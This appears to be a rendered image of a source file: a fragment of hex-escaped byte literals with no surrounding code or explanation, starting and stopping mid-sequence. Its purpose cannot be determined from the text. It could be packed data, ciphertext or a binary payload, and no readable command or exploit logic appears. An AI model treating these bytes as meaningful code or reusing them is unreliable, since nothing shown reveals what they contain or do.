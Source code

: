 ```
x8b\x7d\x12\xd3\x94\x56\xae\xd0\xb9\xca\x8f\xec\xd7\x2c\x80\x99\xc9\xa0\x5d\x6a\xb5\xc2\x50\xfb\x0c\x66\x9e\x12\x69\x50\x83\x69\x05\xe3\xb3\x0d\x47\xec\xc3\x47\xf8\x84\x19\x75\xe9\xd1\xdf\x3a\x02\x41\x5c\x27\x8a\xbe\x2b\x47\x98\x00\x4d\x07\x21\xf8\xd6\xd2\x20\x4a\xab\x22\x1b\x61\xff\x1c\x71\xa3\x35\x46\x7f\xbb\x85\x66\x55\x3f\xbf\x6e\x01\x55\xd4\x96\x50\x83\x6b\x7e\x9c\x97\xc2\x97\x47\x23\xc8\xf3\xcd\xd2\x6b\xda\xf0\x17\xf0\x89\x8b\xe3\xb3\xc6\x83\x0e\x50\x8b\xd8\x7d\xd0\x33\x55\x16\x19\x32\xc7\xf6\xbb\x79\x4d\xfc\x42\xac\x91\x62\xbb\xf0\x62\x0c\xdb\x62\xbb\xad\x0e\x6d\x5d\x58\xa0\xf4\xc8\x7e\x69\x8a\xe9\xb0\x2c\x4c\x67\x7a\xdf\xd1\xa6\xd3\xe2\xa9\x0f\x8d\x88\xb7\xa1\xf1\x88\x2a\xfa\x52\xd0\x37\xfc\x50\xe9\x12\xba\x90\xf4\x72\x55\x74\x88\x26\xf4\x23\xde\xa7\xf4\x15\x10\x84\x20\xf7\xfd\x52\x15\x62\x2b\x18\x89\xa4\x6e\xdd\xf3\xc9\x1b\xff\x13\xbe\xeb\x1e\x33\xf2\x4a\xf8\xde\x7b\xd0\xd2\xfa\xd1\x73\x5a\x75\x33\x45\xa0\x78\xe3\x38\x30\x06\x9a\xcf\xca\xa9\xd9\xa2\xe7\x95\xaf\xca\x8b\x96\xa0\xb4\xc9\x3b\x88\x00\xcb\x15\x9a\x37\x71\x2a\x0e\x74\x9c\xbe\x1b\x05\x61\x3f\xda\x7c\x77\xbb\xda\xeb\x28\x7d\xa7\xe3\x6c\x45\xab\x33\xf4\x9f\x36\x44\x6d\x5e\x54\xd6\xcd\xf5\x58\xa2\xb5\x4d\xd8\x82\x8f\x84\x7f\x3c\x53\xbe\x51\xa9\x47\xb1\xb0\x6f\x0f\x38\xb4\x4d\x9f\xb2\x67\x9b\x73\x3f\x4e\x55\x78\xf2\x54\x30\x47\x26\x75\xa1\xa9\xe9\xf9\x24\xaa\x18\xf5\xf9\x41\xe3\xfa\x18\x42\xfe\x4e\xe0\x0a\xd2\x1c\x87\x5e\xf9\x43\x29\xe8\x20\x77\x6e\x3e\x67\xe0\xc4\x33\x5f\xf2\xa7\xe6\xcf\x37\x52\x22\xb3\x37\x86\x40\x16\x5b\xa0\xbf\x39\xdd\xf7\x29\x17\x0b\xeb\x18\xb9\xdf\x9b\x63\x34\x53\xa8\xc2\xa3\xe4\x06\xe2\x18\xb5\x16\xe3\x77\x51\xe3\x97\x65\x2b\x2c\x60\x35\xd5\x50\xac\xe1\x40\x3c\x68\x5d\x5b\x56\xeb\xbf\x34\x0c\x20\x06\xde\xa8\x06\x97\x21\x14\x51\xb6\x86\x89\x4e\xac\x3c\x08\xf0\x97\x14\xf4\x07\xe3\xd4\x29\xe8\xe8\x5f\x41\xbf\xe6\xee\xbc\x2d\xa6\x1f\x1c\x65\xd5\xf4\x06\xae\x76\xfd\xdc\x07\x0e\xef\x79\x3b\x35\x96\x62\x68\x80\xaa\x0e\x97\xb6\xef\x16\xaa\x62\x71\xf0\xf1\x97\x36\x26\xc2\x15\xfb\xb9\x01\x98\x91\xbf\x91\x10\x77\xf2\xb2\xfc\xc8\xec\x5d\x09\x25\x75\xde\x49\xe0\xd5\xa0\x1d\x33\xe4\x6d\xd4\xc7\x68\x5e\x6f\x61\xf4\x3b\xb6\xa9\x69\xa2\xc6\x13\x1d\x22\xe6\xa8\x5c\x2f\x75\x5b\x78\x80\x68\xee\x3a\x41\xf1\xe9\x1a\x4f\xbc\x3b\x91\xc8\xbf\xa9\x04\x35\xe5\xac\xea\x2f\x9a\x52\x60\x8f\xc6\x32\xd5\x5d\xe7\xdf\xb9\x8e\xa4\x95\x7a\x1f\x26\x53\xa3\x81\x4c\x98\x21\xf7\x93\xf8\x59\xa7\x63\x73\xd4\x55\xd8\xb8\xf6\x87\x2a\xc8\xfb\xd9\xd1\x62\xc2\x11\x78\x76\x11\x46\x82\xa4\x3b\xaa\x79\x4c\xe4\xb8\x4e\x49\x8c\xcc\x91\x7a\x4b\x3c\x27\xee\xe8\x0e\x4a\x13\x0d\xad\xbb\xfd\x9e\xaf\x0e\xcd\x50\x51\x09\x89\x4b\xcc\xda\xa0\x5f\x96\x1c\x86\xff\x9a\x06\x79\xff\x2b\xd3\xe0\xdf\xf6\xc9\xa0\x45\x56\xa8\x0b\xb8\x81\x9d\xa3\xac\x0c\x7e\x3d\x0d\x9e\x73\xf4\xe1\x1d\xf3\xc3\x42\x1c\x75\x7e\x38\xe4\xbd\x2c\xc4\x58\xe7\xf4\x13\xda\x59\x93\x8b\x8e\xb0\x6c\xad\x09\xa7\x25\x84\xb4\x25\xe0\xc4\x44\xd4\xe7\x4e\x36\x37\x1c\xda\x7e\x24\xbb\x9c\xd0\x62\xd1\x3c\xcd\xcc\x55\x7b\x16\xcb\x84\x9e\x85\x07\xc8\x3d\x81\x62\xb5\x93\x47\x2f\xa3\xdf\xff\xe2\x90\x59\x50\xc6\x36\x75\xea\x53\xea\x01\x60\x12\x99\xea\xad\x4d\x84\x4c\xba\x6f\x9b\xb8\x9c\x21\x67\x80\xbf\x41\xd5\x88\x0f\xc5\xb6\xd2\x18\xf7\x86\x15\xf2\xd3\xbe\x28\xaf\xf4\xf3\x19\xed\x35\x52\x26\x3c\x17\xb6\xea\xb3\x82\x1a\xe6\xd7\x0f\xe7\x5f\x42\x50\x10\x36\x69\x14\x2a\x4e\x52\xe5\x81\x8d\xd9\x58\x7e\xec\x71\xa2\xce\x98\x91\xd5\x48\x36\xbb\xea\x5d\x5e\x20\x27\x6b\x9b\xb2\xc0\x37\x58\xe4\x5d\x6b\xb9\x72\x7a\xca\x58\x73\x97\x15\x0b\x1f\x9a\x23\x29\xb9\xdf\xe8\x60\xad\x11\x69\xcf\x62\xb7\xb8\xa0\x89\x68\xe1\xe5\xe2\x14\x8c\x1e\x80\xf3\xfa\x9d\x64\x30\xd7\x98\x12\x09\x36\x59\x1c\xb5\x87\x34\x17\x2e\x66\x57\x6a\x9d\xf4\x3e\xc7\x4c\x78\x14\x04\x72\xa2\xd9\xd9\xd1\xa2\x45\xfb\xee\xb7\x73\x55\x5c\xdd\x5d\x43\x39\x81\x1b\xb7\xbf\x52\x31\x4b\x49\x33\xdb\xa0\x69\x4e\x78\x7b\xee\x12\x83\x53\x0f\x5c\x23\x5d\xe1\xc9\xd2\xa6\x9c\xc6\x5d\x66\x0a\x06\xc2\x91\x62\x66\xe2\x1e\xf2\x6d\x53\xe8\x45\x5a\x64\x99\x7a\xb9\x0f\xf7\xa8\x72\x1a\xe8\x2e\xa5\x91\xda\x6a\x61\x17\xec\x4b\x7f\x0a\x3e\x88\x9c\x28\x9c\xc7\x14\x22\x15\xfc\xca\xa5\xc1\xb4\xf3\xf5\x73\x95\xb0\xba\x48\x91\xbb\x14\x60\x5c\xbc\x82\x7c\x4c\x1b\x98\xfb\x6e\x4d\xc5\x9e\x61\x4a\xe1\x0d\xfd\x1a\xac\x1e\xb8\x23\x57\x08\x9c\xdb\xa8\x84\x77\xce\x51\x68\xbe\xf6\x97\xe0\xe9\x3e\xa6\xb7\xc0\x6b\xc8\x51\x81\x8c\x2c\xdf\xe4\x40\xfa\x4a\xf5\xb7\x15\xc9\xa6\xbb\x87\xb7\x19\xeb\xd8\x88\xe9\x69\x41\x3d\xdb\x13\xe7\x90\xa4\x1e\x85\x8b\x4d\x92\x1b\x81\xc6\xba\x80\xb1\x2d\xba\x3b\x7d\x22\xa6\x2a\x34\x48\x3a\xf8\xd5\x9c\xfe\x8a\x6e\x9c\x19\x9e\x36\x60\x96\x14\x55\x39\x7c\x9d\x8d\x88\x49\xbc\x8e\x49\xaf\x4d\x35\xf3\x28\x8e\xc1\xb1\x7c\x2c\x7b\x57\xaf\x4a\xab\x44\xdf\xd0\x0b\x96\x03\x14\x12\x14\xc6\x8e\xa6\x60\x8a\x0c\x7f\x3e\xbc\xb9\x67\x24\x86\xd0\x72\xdd\x2f\x8b\x82\xed\x9a\xcc\xcd\x44\x5b\x4e\x44\x0c\x0e\xa9\xe0\x8f\x41\x53\xe9\x24\xf7\x0b\x97\xf5\xca\x8f\x7c\x34\x78\x3f\x91\xad\x24\x17\x8c\x4d\x59\xb7\x6b\x90\xe4\xea\x06\xa6\x34\x13\x10\xb0\x69\x95\x88\x61\x54\x72\x97\xaa\x11\x89\x7f\xb9\xa2\x3f\xa2\x01\xab\x71\xdb\x25\xd9\x5f\xd1\x8d\xa4\x52\xe9\x3d\x68\x44\x13\xb8\xb6\xea\x5e\xdc\xa3\x31\x07\xaf\x1d\xe5\x1a\x47\xc2\x71\xc9\x28\x60\xc0\x2b\x05\x27\xf2\x91\xc0\x97\x47\x3b\x2c\x0f\xb4\xa1\xc1\xcc\x9d\x97\x7a\xf7\x8b\xd1\x87\x9e\x4d\x12\xcc\x9f\x62\xae\x1c\x68\xdb\xe2\xca\x58\xc4\xf1\xf9\x2b\xd3\x0b\x77\xe9\xaa\x19\x37\xce\x02\xf0\x6f\x6f\x03\x3c\x91\x89\x60\x2c\x15\x7e\x72\x50\xe4\xe7\xa2\x76\x16\x91\x07\x1a\x6a\x8b\x1a\x9c\x12\x86\x95\xa1\xbd\xd1\x92\x69\x85\xd5\xa0\xdc\x69\xeb\x26\x86\x0d\xa4\x92\x09\x83\x3a\x66\x8b\x0a\x46\x96\x03\xde\xe8\x18\xf3\x97\x3e\x11\x58\x38\x91\x32\x9a\x1e\xf0\x7a\x3c\xb5\x77\xb1\x49\xa3\x54\xe0\xdc\x6c\xf5\x89\x78\x97\xd1\x16\x4d\xa9\xae\xdd\x89\x57\x63\x24\xd7\x3a\x5d\xf2\xd4\x16\x71\x50\xa3\x5f\xcf\x26\x0a\xb3\xe1\x9b\x02\x24\x54\xd0\xe5\xe5\xfb\xef\x19\x5e\x28\xa6\xca\x1c\xfc\x92\x10\xf2\x4c\xad\x50\x61\x57\x80\xc7\xef\xbf\xb3\x48\x24\xc6\xac\xb9\xc4\x2c\x2d\xae\x03\xd2\xd8\x2e\xba\x70\x57\xf3\
```
